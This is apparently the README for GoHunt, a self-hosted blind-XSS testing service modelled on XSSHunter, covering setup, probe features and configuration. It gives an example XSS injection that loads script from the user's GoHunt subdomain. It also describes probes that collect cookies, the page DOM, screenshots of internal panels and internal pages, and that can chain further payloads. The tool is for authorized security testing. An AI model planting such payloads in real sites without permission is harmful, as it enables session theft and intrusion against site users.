 # GoHunt

A revival of [XSSHunter](https://github.com/mandatoryprogrammer/xsshunter), `GoHunt` brings all your favorite `XSSHunter` functionality. Plus quality of life improvements!

![image](https://github.com/user-attachments/assets/310053ad-0d92-42bc-ae72-fa439e567373)

![image](https://github.com/user-attachments/assets/3dd8a917-b313-4c34-929d-4df67c648c31)

![image](https://github.com/user-attachments/assets/d2a48ad0-cf17-48a6-a58b-055432efcb8c)

![image](https://github.com/user-attachments/assets/14bd78dd-9938-43ef-919a-0c1b87e5241c)


Main changes:
- Single golang binary or docker deployment
- Additional notification methods 
- Bulk deletion/editing 
- Single Sign on


## Requirements
* A domain name
* Docker/Podman
* Ability to set DNS records

## Setup

Set a wildcard DNS record to your GoHunt instance
```sh
example.com A <YOUR INSTANCE IP>
*.example.com CNAME example.com
```

Create an `.env` file, you can use the `.env.dev` as a template.
```sh
DOMAIN=localhost:8081
GOHUNT_USERNAME=test
DB_PASSWORD=averystrongpassword
#GOHUNT_PASSWORD=yourstrongpasswordhere (optional)
```

Remember to set your `DOMAIN`!

Start the `docker-compose.yaml`:
```sh
docker compose -f docker-compose.yaml up -d
```

Thats it!

## Summary of Functionality
*Upon signing up you will create a subdomain such as `yoursubdomain.example.com` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.example.com></script>`. GoHunt will automatically serve up XSS probes and collect the resulting information when they fire.*

## Features
* **Single Sign-on** GoHunt supports OIDC for logging in to your service
* **User Management** Admin users can update and edit user records
* **Managed XSS payload fires**: Manage all of your XSS payloads in your GoHunt account's control panel, including bulk deleting
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an GoHunt compatible tool is used) 
* **Full Page Screenshots**: GoHunt probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **XSS Payloads Fire Notifications**: XSS payload fires also send out **webhooks** or **email** notifications, your choice!
* **Automatic Payload Generation**: GoHunt automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of GoHunt is the ability to correlated injection attempts with XSS payload fires. By using an [GoHunt/XSSHunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the GoHunt service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after GoHunt has done it's thing? GoHunt offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **Confidential Mode**: Dont want to send any details with your notifications? To be safe, this option only means you get notification and no details to your **slack**, **discord**, or email inbox

## Advanced

### Using alternative reverse proxies

GoHunt requires the `X-Forwarded-Proto` and `X-Forwarded-For` headers if running behind a reverse proxy. 
Caddy, by default sends these headers. 
To parse `X-Forwarded-For` GoHunt also needs to be configured with how many proxies are in-front of your instance, so please set `number_proxies` in the yaml config, or the `NumberProxies` environment variable

## Environment variables

Here is the list of environment variables that gohunt takes. 
Please read the `Using config file` section for each environment variable purpose.

`Domain`  
`ListenAddress`  
`NumberProxies`  
`Features.Signup.Enabled`  
`Features.Oidc.Enabled`  
`Features.Oidc.PublicURL`  
`Features.Oidc.IssuerURL`  
`Features.Oidc.ClientID`  
`Features.Oidc.ClientSecret`  
`Features.Oidc.AdminGroupClaimName`  
`Features.Oidc.AdminGroup`  
`Notification.SMTP.Enabled`  
`Notification.SMTP.Host`  
`Notification.SMTP.Port`  
`Notification.SMTP.Username`  
`Notification.SMTP.Password`  
`Notification.SMTP.FromEmail`  
`Notification.Webhooks.Enabled`  
`Notification.Webhooks.SafeDomains`  
`Notification.Confidential`  
`Database.Host`  
`Database.Port`  
`Database.User`  
`Database.DBname`  
`Database.SSLmode`  
`Database.Password`  


## Using config file

If you want to use a yaml config file instead of passing everything via `ENV` variables, use the `config.yaml.example` as a template, and add the following to your docker compose in the `gohunt` section:

```yaml
volumes:
    - ./config.yaml:/config/config.yaml:ro
```

The following is all the configuration options and their purpose:
```yaml
domain:         (string) Your gohunt instance domain (add port if not default 443/80)
listen_address: (string) The ip:port combination start the golang http server on
number_proxies: (int)    Used to parse X-Forwarded-For
features: 
  signup:
      enabled: (bool) Enable or disable account creation
  oidc:
   enabled:                (bool)   Enable or disable OIDC SSO integration
   public_url:             (string) URL of Gohunt instance (option can be determined from domain)
   issuer_url:             (string) Identity provider URL
   client_id:              (string) OIDC Client ID
   client_secret:          (string) OIDC Client Secret
   admin_group_claim_name: (string) Claim with user groups in it (optional)
   admin_group_name:       (string) Group that indicates user should be administrator of instance (optional)

  notification:
    confidential:   (bool) Whether to add xss vulnerablity details to notification
    smtp:
      enabled:      (bool)   Enable or disable sending notifications via SMTP
      host:         (string) Host domain/ip
      port:         (int)    Port
      username:     (string) Mailing username
      password:     (string) Mailing password
      from:         (string) The sending email address
    webhooks:
      enabled:      (bool) Enable or disable sending notifications via webhooks
      safe_domains: (string array) List of domains that are safe to send to, defaults to [discord.com, slack.com]

  database:
     host:     (string) Host domain/ip
     port:     (string) Port
     user:     (string) Database user
     password: (string) Database user password
     dbname:   (string) Which database to use
     sslmode:  (string) postgres sslmode
```

